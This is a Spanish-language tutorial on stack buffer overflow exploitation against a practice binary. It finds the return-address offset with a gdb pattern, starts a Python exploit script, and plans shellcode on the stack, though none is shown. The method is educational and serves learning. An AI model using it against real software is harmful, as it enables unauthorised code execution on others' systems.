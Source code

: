 1. Como ya sabemos que el programa es vulnerable al desbordamiento de buffer, intentaremos sobreescribir la dirección de retorno para que apunte a donde nosotros queramos.
2. ¿A dónde nos interesa que apunte? Pues en este caso al **Stack**, dado que tenemos control sobre él, pudiendo sobreescribirlo a nuestro antojo.
3. Dentro del **Stack** incluiremos código ensamblador (a partir de ahora llamado `shellcode`).

Para ello, lo primero es encontrar mediante un *debugger* -en mi caso `gdb`- el tamaño exacto de la entrada que nos permita sobreescribir la posición de retorno:

```sh
echo 'AAAABBBBCCCCDDDDEEEE' > pattern
gdb -q desbordamiento-vulnerable
        r < pattern
                Starting program: desbordamiento-vulnerable < pattern
                Introducir PIN: Acceso denegado, pin incorrecto
                PISTA:
                pin secreto: BBBCCCCDDDDEEEE
                pin leido: AAAABBBBCCCCDDDDEEEE

                Program received signal SIGSEGV, Segmentation fault.

                0x00007ffff7004545 in ?? ()
```

Como podemos ver, la última línea es `0x00007ffff7004545 in ?? ()`. Si nos fijamos en los últimos números de la dirección, observamos que es `...4545` o, traducido a ASCII, `..EE`. Por lo tanto, a partir de la segunda `E` de nuesto *pattern* podemos sobreescribir la dirección de retorno:

```py
#!/usr/bin/env python2

# AAAABBBBCCCCDDDDEE<retorno>
# Hay 18 bytes antes del retorno

offset = 'A' * 18
ret = ''

print(offset + ret)
```

> A partir de ahora escribiré un script de Python para ir facilitando la tarea de generar el exploit

Volviendo al gdb hacemos el comando `info registers` para ver la posición del **Stack**:

| Stack Pointer | Arquitectura |
| --- | --- |
| rsp | x86_64 |
| esp | x86 |

> En mi caso trabajo con 64bit

```
rsp            0x7fffffffde10	0x7fffffffde10
```
